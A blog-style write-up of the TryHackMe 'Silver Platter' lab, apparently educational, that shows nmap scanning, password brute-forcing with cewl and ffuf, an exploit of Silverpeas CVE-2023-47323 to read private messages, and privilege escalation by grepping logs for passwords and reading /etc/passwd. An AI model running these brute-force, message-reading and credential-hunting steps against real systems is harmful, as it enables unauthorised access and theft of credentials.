 ```yaml
---
title: "TryHackMe: Silver Platter"
author: Kasem Shibli
categories: [TryHackMe]
tags: [web, brute-force, ffuf, idor, ssh, adm, log]
render_with_liquid: false
media_subpath: /blog/images/tryhackme_silver_platter/
image:
  path: room_image.webp
---
```


**Silver Platter** was a simple room where we discovered a **Silverpeas** installation along with a username. We brute-forced the user's password using a custom wordlist to gain access to **Silverpeas**, and by exploiting a vulnerability in it that allows an authenticated user to read all the messages, we uncovered **SSH** credentials in one of them.

Using the discovered credentials to gain a shell, we found a password in the logs and used it to escalate to the **root** user, completing the room.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/silverplatter){: .center }

## Initial Enumeration

### Nmap Scan

We start with an `nmap` scan.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.191.243
Nmap scan report for 10.10.191.243
Host is up (0.089s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are three open ports:

- **22** (`SSH`)
- **80** (`HTTP`)
- **8080** (`HTTP`)

### Web 80

Checking `http://10.10.191.243/`, we find a static site.

![Web 80 Index](web_80_index.webp){: width="1200" height="600"}

### Web 8080

Checking `http://10.10.191.243:8080/`, we simply receive a `404` error.

![Web 8080 Index](web_8080_index.webp){: width="1200" height="600"}

## Shell as tim

### Discovering Silverpeas

In the **Contact** section on port **80** (`http://10.10.191.243/#contact`), we find an interesting message mentioning `Silverpeas` and a username: `scr1ptkiddy`.

![Web 80 Contact](web_80_contact.webp){: width="1200" height="600"}

`Silverpeas` typically runs on `:8080/silverpeas` and visiting `http://10.10.191.243:8080/silverpeas`, we find the login page for it.

![Web 8080 Silverpeas](web_8080_silverpeas.webp){: width="1200" height="600"}

### Brute-forcing the Credentials

The contact page provides a username, and the challenge room states a password policy that disallows breached passwords. So, instead of using a wordlist like `rockyou.txt`, we can generate a custom wordlist from the text in the web application on port **80** using `cewl`:

```console
$ cewl http://10.10.191.243/ > passwords.txt
```

Now, using this wordlist with `ffuf` to brute-force the password for the `scr1ptkiddy` user, we find it as `a[REDACTED]g`:

```console
$ ffuf -u 'http://10.10.191.243:8080/silverpeas/AuthenticationServlet' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'Login=scr1ptkiddy&Password=FUZZ&DomainId=0' -w passwords.txt -r -mc all -t 100 -fs 8282
...
a[REDACTED]g              [Status: 200, Size: 548, Words: 64, Lines: 24, Duration: 2399ms]
```
{: .wrap }

### Reading Messages

Using the discovered credentials, we successfully log in as `scr1ptkiddy` to **Silverpeas**.

![Web 8080 Silverpeas Dashboard](web_8080_silverpeas_dashboard.webp){: width="1200" height="600"}

Searching for vulnerabilities in **Silverpeas**, we find [**CVE-2023-47323**](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323), which allows reading all messages via the `http://localhost:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=[messageID]` endpoint.

Exploiting this vulnerability to read the messages, when we read the message with ID `6` (`http://10.10.191.243:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=6`), we find the **SSH** credentials for the `tim` user.

![Web 8080 Silverpeas Messages](web_8080_silverpeas_messages.webp){: width="1200" height="600"}

Using these credentials, we can gain a shell and read the user flag at `/home/tim/user.txt`:

```console
$ ssh tim@10.10.191.243
...
tim@silver-platter:~$ wc -c user.txt
38 user.txt
```

## Shell as root

### Finding the Password

Checking the group memberships for the `tim` user, we see that the user belongs to the `adm` group:

```console
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

As a member of the `adm` group, we can read most logs on the machine and searching the logs for passwords, we find one in `auth.log` for the **Silverpeas** database:

```console
tim@silver-platter:~$ grep -Ri 'password' /var/log 2>/dev/null
...
/var/log/auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Z[REDACTED]3/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
...
```
{: .wrap }

Checking the `/etc/passwd` file, we see that, apart from the `tim` user, there is also the `tyler` user.

```console
tim@silver-platter:~$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
tyler:x:1000:1000:root:/home/tyler:/bin/bash
tim:x:1001:1001::/home/tim:/bin/bash
```

Testing the password we discovered for the `tyler` user, we successfully switch users:

```console
tim@silver-platter:~$ su - tyler
Password:
tyler@silver-platter:~$ id
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

Checking `sudo` privileges for `tyler`, we see full access:

```console
tyler@silver-platter:~$ sudo -l
[sudo] password for tyler:
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

With this, we can use `sudo` to escalate to the `root` user and read the root flag at `/root/root.txt` to complete the room.

```console
tyler@silver-platter:~$ sudo su -
root@silver-platter:~# wc -c root.txt
38 root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
